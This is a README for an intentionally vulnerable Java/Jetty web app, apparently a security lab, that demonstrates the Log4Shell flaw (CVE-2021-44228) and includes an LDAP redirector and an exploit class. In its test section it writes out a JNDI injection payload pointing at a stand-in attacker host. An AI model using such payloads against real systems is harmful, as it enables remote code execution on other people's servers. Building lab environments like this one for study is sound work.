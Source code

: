 # CVE-2021-44228 Log4jShell WebApp

This is a minimal Java web application vulnerable to **Log4Shell (CVE-2021-44228)**, built with:

- Java + Jetty (embedded)
- Log4j 2.14.1 (vulnerable)
- LDAP-server voor JNDI-exploits
- Simple HTML form
- Java exploit payload ('Exploit.class')

---

## Quick Start

### Prerequisites:
- Debian/Ubuntu-based system
- Internet access

### Clone the repository:
```bash
git clone https://github.com/SanderSchepers1993/CyberSec25.git
cd CyberSec25
```

### Run the setup script:
```bash
chmod +x setup.sh
./setup.sh
```

Open your browser and visit:
[http://localhost:8080](http://localhost:8080)

---

## Test Payload (work in progress)

Submit the following payload to the form:
```text
${jndi:ldap://attacker.com/a}
```
This will be **logged by Log4j**, potentially triggering the Log4Shell exploit **if you have a rogue LDAP server running**.

---

## Project Structure
```
CyberSec25/
├── Exploit/
  # Bevat Exploit.java/class
├── ldap/ # LDAP-SERVER (JNDI redirector)
├── webapp/ # Kwetbare webapp (Jetty + log4j)
│
└── libs/ # Dependencies (via setup.sh)
├── scripts/ @ Automatiseringsscripts
├── README.md
└── test_payload.txt # Payload voor formulierinvoer

```

---

## Disclaimer
This project is intentionally vulnerable. Use responsibly in **isolated test environments** only. The author takes no responsibility for misuse.
